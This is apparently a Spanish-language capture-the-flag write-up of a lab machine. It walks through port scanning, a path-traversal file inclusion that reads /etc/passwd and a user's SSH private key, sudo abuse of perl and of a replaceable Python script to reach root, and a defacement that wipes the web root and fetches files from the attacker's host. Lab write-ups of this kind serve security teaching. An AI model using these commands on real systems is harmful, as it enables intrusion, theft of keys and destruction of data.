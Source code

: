 
![[20250805113215.png]](psycho-images/20250805113215.png)
# Fase de reconocimiento

Lo primero como siempre vamos a hacer un escaneo de puertos basicos con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez detectados los puertos que están abiertos vamos a hacer otro escaneo pero esta vez con scripts básicos de nmap para ver servicios y versiones 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250805113449.png]](psycho-images/20250805113449.png)

vamos a ver que contiene el puerto 80 

![[20250805113522.png]](psycho-images/20250805113522.png)
![[20250805113543.png]](psycho-images/20250805113543.png)

podemos apreciar una pagina web sin iteración posible y al final de esta tenemos un mensaje de error como si algo no se pudiera ejecutar correctamente 

vamos a hacer un escaneo con wfuzz para ver si sacamos algún directorio de interés.

```bash
wfuzz -c -w /usr/share/wordlists/dirb/common.txt --hc 404 http://172.17.0.2/FUZZ
```

![[20250805113729.png]](psycho-images/20250805113729.png)

vemos que la pagina en la que estamos en un php y quizá hay algo mal configurado por lo que se produce el error que vimos antes en la web. vamos a comprobar con fuff si existe algún parámetro escondido que nos pueda ayudar a realizar un LFI (local file inclusion)

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://172.17.0.2/?FUZZ=key"  -fs 2596 -s
```

![[20250805113910.png]](psycho-images/20250805113910.png)

vemos que existe un parámetro llamado secret asi que vamos a probar a realizar el LFI desde la web

```bash
http://172.17.0.2/index.php?secret=../../../../../../../etc/passwd
```

![[20250805114037.png]](psycho-images/20250805114037.png)

vemos que se acontece el LFI y además podemos ver en el /etc/passwd dos usuarios vaxei y luisillo. veamos si podemos conseguir algún id_rsa ya que el puerto 22 esta abierto

esta vez vamos a hacerlo por terminal en vez de por la web para ver asi varias maneras de hacer lo mismo. esto lo hago para que personas que esten empezando puedan aprender varias formas. se puede hacer todo por URL o todo por Curl de esta manera

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

![[20250805114422.png]](psycho-images/20250805114422.png)

Desde el usuario luisillo no encontramos nada pero en el usuario vaxei encontramos esto.

ahora vamos a ver como podemos acceder a la maquina desde aqui.

---

# Fase de Explotación

Vamos a crear con nano un archivo llamado id_rsa y dentro pondremos el código que acabamos de encontrar de esta manera

![[20250805114640.png]](psycho-images/20250805114640.png)

lo guardamos y tratamos de conectarnos por ssh

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

![[20250805114723.png]](psycho-images/20250805114723.png)

nos sale un error que deniega la rsa y nos piden contraseña por lo que vamos a intentar cambiarle los permisos a nuestra llave

```bash
chmod 0600 id_rsa
```

y probamos a conectarnos como antes 

![[20250805114834.png]](psycho-images/20250805114834.png)

ahora si tenemos acceso al sistema como vaxei

---

# Fase Post-Explotación

vamos a ver que permisos SUDO tenemos ahora mismo 

```bash
sudo -l
```

![[20250805114921.png]](psycho-images/20250805114921.png)

vemos que podemos utilizar como sudo -u luisillo sin contraseña el binario perl a si que vamos a buscar en GTFObins una manera de explotar esto

![[20250805115012.png]](psycho-images/20250805115012.png)

simplemente tenemos que poner 

```bash
sudo -u luisillo perl -e 'exec "/bin/bash";'
```

he cambiado la "sh" por una "bash" ya que para mi es mas cómodo trabajar con este tipo de SHELL 

![[20250805115303.png]](psycho-images/20250805115303.png)

podemos ver que tenemos acceso como luisillo y como podeis apreciar he intentado hacer Ctrl + L para limpiar la pantalla y no ha funcionado asi que vamos a arreglar esto 

```bash
export TERM=xterm
```

ahora si con una shell mas comoda podemos trabajar mejor.

---

# Escalada de Privilegios

repitamos lo que hemos hecho para llegar a luisillo pero esta vez desde este usuario para poder escalar a root

```bash
sudo -l
```

![[20250805115528.png]](psycho-images/20250805115528.png)

aqui podemos ver que tenemos permisos de sudo para ejecutar un script de python sin contraseña. asi que vamos a ver que contiene este script 

![[20250805115633.png]](psycho-images/20250805115633.png)

entre varias funciones vemos que se importan las librerías sys y os que nos permiten ejecutar comandos a nivel de sistema y vemos un código que pone "echo Ojo aqui" si conseguimos modificar este archivo podremos lanzar una shell como root. asi que vamos a ver que permisos tenemos sobre el archivo 

```bash
ls -l /opt/paw.py
```

![[20250805115825.png]](psycho-images/20250805115825.png)

vemos que solo root puede modificar el archivo así que vamos a ir un poco mas para atrás para comprobar si tenemos permisos en el directorio "opt"

utilizamos los comandos

```bash
cd /
```

```bash
ls -l
```

![[20250805115945.png]](psycho-images/20250805115945.png)

vamos que tenemos permisos de lectura, escritura y ejecucion en la carpeta opt asi que vamos a hacer lo siguiente
```bash
cd /opt
```

```bash
rm -rf paw.py 
```

```bash
nano paw.py
```

y en el archivo escribimos esto 

```python

import os
import sys

# Código para ejecutar el script
os.system("chmod u+s /bin/bash")
```

una vez tenemos esto vamos a ejecutarlo somo sudo

```bash
sudo python3 /opt/paw.py 
```

![[20250805120335.png]](psycho-images/20250805120335.png)

podemos comprobar que ahora la /bin/bash tiene permisos SUID por lo que podemos lanzar una shell como root 

```bash
bash -p
```

![[20250805120418.png]](psycho-images/20250805120418.png)

# Extra

y como extra realizamos nuestra banderita como explique en la maquina chocolateLovers

vamos a /var/www/html

```bash
cd /var/www/html
```

destruimos todo lo que contiene

```bash
rm -r ./*
```


abrimos en nuestra terminal de atacante un puerto con python en la carpeta donde tenemos nuestro html con el mensaje

```bash
python3 -m http.server 8081
```

y en la maquina victima ejecutamos los comandos que mostré 

```bash
wget http://192.168.1.182:8081/index.html -O index.html
```

```bash
wget http://192.168.1.182:8081/panda.png -O panda.png
```

vamos a la pagina web de la maquina victima y actualizamos 

![[20250805120743.png]](psycho-images/20250805120743.png)

Y terminamos la maquina con este regalito.
